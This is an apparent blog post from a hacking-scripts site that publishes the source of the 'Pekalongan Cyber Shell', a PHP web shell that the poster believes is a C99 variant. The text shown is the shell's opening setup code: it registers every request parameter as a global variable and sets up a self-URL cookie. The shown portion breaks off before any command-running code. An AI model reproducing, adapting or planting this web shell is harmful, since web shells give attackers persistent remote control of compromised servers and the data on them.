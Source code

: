 ```yaml
---
id: 267
title: Pekalongan Cyber Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=267
permalink: /pekalongan-cyber-shell/
categories:
  - PHP
tags:
  - cyber
  - Pekalongan
  - PHP
---
```

I think this is actually a C99 shell, but the script says: Pekalongan Cyber | H1j4Ck a.k.a k4L0ng666

### Pekalong Cyber Shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php //Starting calls
if (!function_exists("getmicrotime")) {function getmicrotime() {list($usec, $sec) = explode(" ", microtime()); return ((float)$usec + (float)$sec);}}
error_reporting(5);
@ignore_user_abort(TRUE);
@set_magic_quotes_runtime(0);
$win = strtolower(substr(PHP_OS,0,3)) == "win";
define("starttime",getmicrotime());
if (get_magic_quotes_gpc()) {if (!function_exists("strips")) {function strips(&$arr,$k="") {if (is_array($arr)) {foreach($arr as $k=&gt;$v) {if (strtoupper($k) != "GLOBALS") {strips($arr["$k"]);}}} else {$arr = stripslashes($arr);}}} strips($GLOBALS);}
$_REQUEST = array_merge($_COOKIE,$_GET,$_POST);
foreach($_REQUEST as $k=&gt;$v) {if (!isset($$k)) {$$k = $v;}}

$shver = "Pekalongan Cyber | H1j4Ck a.k.a k4L0ng666"; //Current version
//CONFIGURATION AND SETTINGS
if (!empty($unset_surl)) {setcookie("k1r4_surl"); $surl = "";}
elseif (!empty($set_surl)) {$surl = $set_surl; setcookie("k1r4_surl",$surl);}
else {$surl = $_REQUEST["k1r4_surl"]; //Set this cookie for manual SURL
}

$surl_autofill_include = TRUE; //If TRUE then search variables with descriptors (URLs) and save it in SURL.

if ($surl_autofill_include and !$_REQUEST["k1r4_surl"]) {$include = "&"; foreach (explode("&",getenv("QUERY_STRING")) as $v) {$v = explode("=",$v); $name = urldecode($v[0]); $value = urldecode($v[1]); foreach (array("http://","https://","ssl://","ftp://","\") as $needle) {if (strpos($value,$needle) === 0) {$includestr .= urlencode($name)."=".urlencode($value)."&";}}} if ($_REQUEST["surl_autofill_include"]) {$includestr .= "surl_autofill_include=1&";}}
if (empty($surl))
{
 $surl = "?".$includestr; //Self url
}
$surl = htmlspecialchars($surl);
